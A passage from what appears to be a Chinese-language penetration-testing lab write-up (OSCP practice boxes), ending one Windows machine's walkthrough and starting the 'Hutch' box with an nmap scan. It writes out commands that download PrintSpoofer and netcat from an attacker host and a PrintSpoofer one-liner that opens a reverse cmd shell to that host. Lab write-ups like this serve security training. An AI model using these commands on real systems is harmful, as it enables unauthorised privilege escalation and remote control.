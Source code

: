 通过检索找到下面exp：https://github.com/k4sth4/PrintSpoofer

```
iwr -uri http://192.168.45.161:90/potato/PrintSpoofer.exe -Outfile PrintSpoofer.exe
iwr -uri http://192.168.45.161:90/nc.exe -Outfile nc.exe
```

利用土豆反弹shell

```
PrintSpoofer.exe -c "nc.exe 192.168.45.161 3000 -e cmd"
```

拿到proof

![image-20250306132846827](./PG_win.assets/image-20250306132846827.png)

## Hutch

信息收集：
```
┌──(root㉿cyborg)-[/home/…/oscp/pg/win/Hutch]
└─# nmap -p- -Pn -A -sS -T4 192.168.138.122
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-06 13:31 CST
Nmap scan report for 192.168.138.122
Host is up (0.089s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND DELETE MOVE PROPPATCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/10.0
| http-webdav-scan: 
|   Public Options: OPTIONS, TRACE, GET, HEAD, POST, PROPFIND, PROPPATCH, MKCOL, PUT, DELETE, COPY, MOVE, LOCK, UNLOCK
|   WebDAV type: Unknown
|   Server Date: Thu, 06 Mar 2025 05:34:28 GMT
```